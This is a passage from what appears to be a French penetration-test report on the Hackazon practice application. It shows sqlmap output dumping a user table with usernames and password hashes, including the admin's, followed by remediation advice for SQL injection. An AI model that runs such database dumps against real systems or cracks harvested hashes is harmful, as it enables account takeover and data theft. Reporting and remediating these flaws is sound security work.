 ```bash
[20:13:59] [INFO] retrieved: '04914d55c6af1e3718976c36ada87e54:68427529368e8b686a7ea2','nerkos'
[20:14:00] [INFO] retrieved: 'c15dc794fef1040e16490af8871e3e74:179192733168e8bcde2a09c','test'
[20:14:02] [INFO] retrieved: 'ef8d2ba8c927e6652c08af98bc1e2c96:77604256468e8bda823af1','zindar'
[20:14:04] [INFO] retrieved: 'abaa03938301955f256d673c98707ec3:85486099168e8c0713ce7e','test01'
Database: hackazon                                                                                                                                                                          
Table: tbl_users
[15 entries]
+-----------------+----------------------------------------------------------+
| username        | password                                                 |
+-----------------+----------------------------------------------------------+
| test_user       | 7d4a69db92c867d9b0060653c44733bf:108853d9fae39d4bb       |
| admin           | dbcc4ed6943bf62bb67170742cf1aefa:146859157968e8b5062bf10 |
| jdoe            | 4d1734dc3097b5c1683d70d39e4df7fa:46844494268e8b51f6f42f  |
| guest           | 766d4b0b1e8647a9cff98506bc4fa1bf:59652974868e8b53b41df9  |
| D0R3TDEPLATINEE | 0825175d340512aa53c657be2dd1cb46:164227316068e8b53e7ee62 |
| BENPI           | 3ad16bac3b75e20a984a4b671a6d4c8a:60999490468e8b54fc7f21  |
| a.landais       | dbbfdb295b80f0bc8178779d421899ce:59576059068e8b5739f741  |
| WhiteColors_    | 0a3d0c780b6df84f37e0b59cca77dfd3:142035250768e8b5c8c3e02 |
| letgo           | 5fead1f61e27d509cb9239aad141f2bf:6563806968e8b5d82320e   |
| w               | 1ad813738f0b099f5413d510ea769906:42257496968e8b5f04058e  |
| momotest        | e8d396b1eb9a95ace2facbaa2cf6eedd:159695652468e8b67a7783c |
| nerkos          | 04914d55c6af1e3718976c36ada87e54:68427529368e8b686a7ea2  |
| test            | c15dc794fef1040e16490af8871e3e74:179192733168e8bcde2a09c |
| zindar          | ef8d2ba8c927e6652c08af98bc1e2c96:77604256468e8bda823af1  |
| test01          | abaa03938301955f256d673c98707ec3:85486099168e8c0713ce7e  |
+-----------------+----------------------------------------------------------+

[20:14:40] [INFO] table 'hackazon.tbl_users' dumped to CSV file '/root/.local/share/sqlmap/output/hackazon.trackflaw.com/dump/hackazon/tbl_users.csv'
[20:14:40] [WARNING] HTTP error codes detected during run:
503 (Service Unavailable) - 1 times, 502 (Bad Gateway) - 26 times
[20:14:40] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/hackazon.trackflaw.com'

[*] ending @ 20:14:40 /2025-10-19/

```
ici la vulérabilité est critique car un user qui n'est meme pas connecté peut avoir le hash des users critiques comme l'admin et listez tout les users

on peut également craquer le hash admin .

**Remediation**

- Utiliser des requêtes **paramétrées** (prepared statements) avec des bibliothèques sécurisées comme PDO (PHP), `mysqli`, SQLAlchemy (Python), etc.
- Ne **jamais concaténer directement** des entrées utilisateur dans une requête SQL.
- Valider et filtrer les données côté serveur : s'assurer que les types attendus sont strictement respectés (`int`, `email`, etc.).
- Restreindre les droits SQL : l'utilisateur base de données utilisé par l'application ne doit jamais avoir de droits `DROP`, `DELETE *`, etc.
- Activer le **logging des erreurs SQL** côté serveur (sans les afficher à l'utilisateur).
- Mettre en place un **WAF** ou des règles de détection pour intercepter les requêtes malformées (mod_security, etc.).
- Effectuer des tests automatisés avec **sqlmap**, ZAP ou Burp Suite pour identifier et corriger les points d’injection.
